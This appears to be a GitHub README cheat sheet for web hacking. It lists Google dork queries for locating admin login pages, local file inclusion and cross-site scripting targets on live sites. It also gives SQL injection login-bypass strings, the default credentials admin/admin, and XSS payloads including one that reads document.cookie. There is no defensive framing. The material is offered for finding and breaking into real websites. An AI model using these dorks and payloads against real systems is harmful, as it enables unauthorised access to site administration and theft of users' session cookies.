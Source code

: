 # ETH

## Dork:
ei duita te beshi kaj hobe.
- inurl: admin/login.php site:.com
- inurl: admin/login.php site:.in
- inurl: admin/login.php
- inurl: admin/index.php
- inurl: admin
- inurl: login.php
- inurl: login.php site:.in

Two
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx

## SQL INJECTION
- 1'or'1'='1
- 1'or'1'-'1
- OR 1-1 LIMIT 1 ;# or 1-1 limit 1 --
- admin' or '1'-'1
- 'or 1-1 limit 1--
- 1'or'1'='1
- ' or 1=1#
- or 1=1
- " or ""="
- or 1=1--
- or 1=1#
- or 1=1/*
- admin' --
- admin' #
- admin'/*
- admin' or '1'='1
- admin' or '1'='1'--
- admin' or '1'='1'#
- admin' or '1'='1'/*
- admin'or 1=1 or ''='
- admin' or 1=1
- admin' or 1=1--
- admin' or 1=1#
- admin' or 1=1/*
- admin') or ('1'='1
- admin') or ('1'='1'--
- admin') or ('1'='1'#
- admin') or ('1'='1'/*
- admin') or '1'='1
- admin') or '1'='1'--
- admin') or '1'='1'#
- admin') or '1'='1'/*

- user Name: admin password: admin

## PAYLOADS
- 1'or'1'='1
- ' OR 1=1 LIMIT 1 ;#
- ' or 1=1 limit 1 -- -+
- admin' or '1'='1
- 'or 1=1 limit 1-- -+---


## DORKS:
- inurl:adminlogin.aspx
- inurl:admin/index.php
- inurl:administrator.php
- inurl:administrator.asp
- inurl:login.asp
- inurl:login.aspx
- inurl:login.php
- inurl:admin/index.php
- inurl:adminlogin.aspx
- inurl:personalrecords/login.php
- inurl:admin/Uploade
- inurl:admin/Upload
- inurl:creative-admin
- inurl:-admin/login.php
- inurl:*-admin/index.php
- inurl:-admin/admin.php
- intitle:"index" of "admin" site:
- intitle:"index" of "admin" "framework" site:.in
- intitle:"index" of "admin" "pdf" site:
- intitle:"index" of "admin" "gallery" site:
- intitle:"index" of "admin" "image" site:
- intitle:"index" of "admin" "upload" site:
- intitle:"index" of "admin" "banner" site:
- intitle:"index" of "admin" "file" site:
- intitle:"index" of "admin" "page" site:
- intitle:"index" of "admin" "news" site:
- intitle:"index" of "admin" "views" site:
- intitle:"index" of "admin" "include" site:
- intitle:"index" of "admin" "picture" site:
- intitle:"index" of "admin" "photos" site:
- inurl: admin/login.php site:.in

## Admin Pane Finding dork
- site:example.com inurl:login | inurl:signin | intitle:Login | intitle:"sign in" | inurl:auth

## LFI Dork
- allinurl:pgg=contact.php
- allinurl:page=contact.php
- allinurl:home=contact.php
- allinurl:?index.php?pagina=contato.php site:br
- allinurl:?index.php?pagina=clientes.php site:br
- allinurl:?index.php?pagina=produtos.php site:br
- allinurl:?index.php?pagina=contato.php
- index.php?pagina=home.php
- index.php?pagina=empresa.php
- index.php?pagina=obras.php
- index.php?pagina=localizacao.php
- index.php?pagina=contato.php
- thumb.php
- index.php?pagina=empresa.php
- index.php?pagina=produtos.php
- index.php?pagina=representantes.php
- index.php?pagina=contato.php
- index.php?pagina=home.php
- index.php?pagina=guia_consumidor.phpa
- index.php?pagina=responsabilidade.php
- LFI dork collection
- inurl:"?page=news.php"
- inurl:"index.php?main=*php"
- inurl:"index.php?inc=*php"
- inurl:"index.php?pg=*php"
- inurl:"index.php?include_file=*php"
- inurl:"index.php?main=*html"
- inurl:"index.php?inc=*html"
- inurl:"index.php?pg=*html
- inurl:index.php?id=
- inurl:index.php?cat=
- inurl:index.php?action=
- inurl:index.php?content=
- inurl:index.php?page=
- inurl: .php?page=contact.php site:in/pk/id


## XSS dork
- /?s= site: (any domain name choose)
- /search?q= site: (any domain name choose)
- /index.php?lang= site: (any domain name choose)
- /index.php?page= site: (any domain name choose)
- /search?query= site: (any domain name choose)
- /search?keyword= site: (any domain name choose)
- /search/?q= site: (any domain name choose)
- /connexion?redirect_uri= site: (any domain name - choose)
- /?page= site: (any domain name choose)
- /search/?s= site: (any domain name choose)
- /?keywords= site:
- /search/?keyword= site: (any domain name choose)
- /search-results?q=
- inurl:".php?query="
- inurl:".php?searchstring="
- inurl:".php?keyword="
- inurl:".php?file="
- inurl:".php?years="
- inurl:".php?txt="
- page_details.php?menu_id=
- gallery.php?menu_id=
- inurl:".php?tag="
- inurl:".php?max="
- inurl:".php?from="
- inurl:".php?author="
- inurl:".php?pass="
- inurl:".php?feedback="

## Script
- <script>alert("1")</script>
- <script>alert(document.cookie)</script>
- <svg/onload=prompt(0)//
